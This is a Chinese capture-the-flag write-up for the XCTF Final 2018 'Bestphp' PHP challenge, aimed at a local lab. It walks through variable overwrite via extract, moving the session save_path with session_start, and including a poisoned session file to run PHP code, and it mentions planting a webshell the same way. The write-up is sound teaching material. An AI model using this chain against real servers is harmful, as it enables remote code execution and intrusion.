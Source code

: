 # XCTF-Final-2018-Bestphp
```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    ini_set('open_basedir', '/var/www/html:/tmp');
    $file = 'function.php';
    $func = isset($_GET['function'])?$_GET['function']:'filters'; 
    call_user_func($func,$_GET);
    include($file);
    session_start();
    $_SESSION['name'] = $_POST['name'];
    if($_SESSION['name']=='admin'){
        header('location:admin.php');
    }
?>
```

### 文件包含

可以发现 `call_user_func($func,$_GET);` 未做任何过滤，而后面有 `include($file);` 因此可利用 `extract` 进行变量覆盖，实现文件包含。

由于这里读取 `admin.php` 与 `function.php` 对解题没用，就不贴代码了。

### session_start 函数
继续往后看，发现 session 值可控，session 默认保存在以下位置：
```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID

/var/lib/php5/sess_PHPSESSID
/var/lib/php5/sessions/sess_PHPSESSID

/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
`/tmp` 目录下无法找到 session，因此 session 应该在 `/var/lib` 目录下。但由于 `ini_set('open_basedir', '/var/www/html:/tmp');` 的设置，无法包含 /var/lib 下的 session。

`session_start` 函数存在 `options` 数组参数，如果提供会覆盖 session 配置项，而其中包含了 `save_path`，可用来修改 session 保存位置。

因此思路是传入 `session_start` 函数修改存储位置。

尝试直接写到根目录
```shell
http --form post "http://127.0.0.1:8003/?function=session_start&save_path=."  name='<?php phpinfo(); ?>' Cookie:PHPSESSID=ivs6beep0k4oniqru15iap6bb3
```

访问 `http://127.0.0.1:8003/?function=extract&file=sess_ivs6beep0k4oniqru15iap6bb3` 显示了 phpinfo 页面。

再用同样的方式写 shell 即可。
